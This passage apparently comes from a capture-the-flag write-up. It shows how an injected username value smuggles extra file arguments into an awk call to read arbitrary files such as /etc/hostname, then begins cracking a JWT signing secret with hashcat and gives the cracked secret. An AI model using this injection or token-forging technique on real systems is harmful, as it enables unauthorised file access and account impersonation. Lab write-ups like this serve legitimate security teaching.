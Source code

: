 

    oxdf@hacky$ cat hashes 
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
    bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
    oxdf@hacky$ awk '/chris/' hashes 
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1



This would be a very obvious command injection, but the "bad character"
check before the call to `awk` makes that impossible.

#### Potential File Read

I can mess around in my terminal to see how I might inject into this
`exec` without using the banned characters. With access to `'`, `/`, and
space, I can use this to read any file. The string is built as:



    awk '/[user]/' /var/www/private/leave_requests.csv



If I let `[user]` be `/' /etc/hostname '`, that makes:



    awk '//' /etc/hostname '/' /var/www/private/leave_requests.csv



From my local example, it tries to read three files, `/etc/hostname`,
`/`, and `hashes`, resulting in two files and a warning:



    oxdf@hacky$ awk '//' /etc/hostname '/' hashes 
    hacky
    awk: cmd. line:1: warning: command line argument `/' is a directory: skipped
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
    bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e181



If I add some more junk to the end, it'll fail on the second file and
not print the original file:



    oxdf@hacky$ awk '//' /etc/hostname '0xdf/' hashes 
    hacky
    awk: cmd. line:1: fatal: cannot open file `0xdf/' for reading (No such file or directory)



#### Crack JWT

To make any of this useful, I'll need to be able to change the username
submitted to the site, which is read from the JWT token. The signature
has to validate to do that, so I'll need the secret used to sign it.
I'll try to crack it with `hashcat`. It automatically detects it as a
JWT, mode 16500, and cracks the secret to "123beany123":
